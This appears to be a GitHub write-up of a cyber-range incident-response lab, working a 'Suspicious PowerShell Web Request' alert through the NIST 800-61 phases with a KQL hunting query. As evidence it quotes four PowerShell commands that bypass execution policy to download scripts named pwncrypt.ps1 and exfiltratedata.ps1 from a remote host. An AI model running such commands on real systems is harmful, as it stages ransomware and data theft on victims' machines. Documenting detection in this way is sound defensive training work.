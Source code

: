
## Part 2: Wait for Alert to trigger an Incident

Once alert the alert triggered and created an incident, I assigned it to myself and proceeded to investigate the incident. 

<img width="957" height="973" alt="IncidentSC" src="https://github.com/user-attachments/assets/52189051-6a0c-4a96-ac2c-2ed7dc4fb1b1" />

## Part 3: Work Incident
Next I worked the incident to completion, in accordance with the NIST 800-61: Incident Response Lifecycle

### Preparation
- Document roles, responsibilities, and procedures.
Ensure tools, systems, and training are in place.
**Preparation phase already in place, assuming the company has already done this.**

### Detection and Analysis
- Identify and validate the incident.
- Investigate the Incident by Actions → Investigate 
- Gather relevant evidence and assess impact.
Upon investigating the triggered incident "DH - Suspicious PowerShell Web Request"

It was discovered that the following commands were run on the machine:

`powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`

`powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1`

`powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1`

`powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1`


…
Check to make sure none of the downloaded scripts were actually executed

**Query used to locate event:**

```kql

DeviceProcessEvents  
| where DeviceName == "dh-test-vuln"  
| where ProcessCommandLine contains "tor-browser-windows-x86_64-portable-14.5.8.exe"  
| project Timestamp, DeviceName, AccountName, ActionType, FileName, FolderPath, SHA256, ProcessCommandLine
```
<img width="1333" height="439" alt="image" src="https://github.com/user-attachments/assets/97f846a0-8727-4e9d-9763-5109ec641986" />

---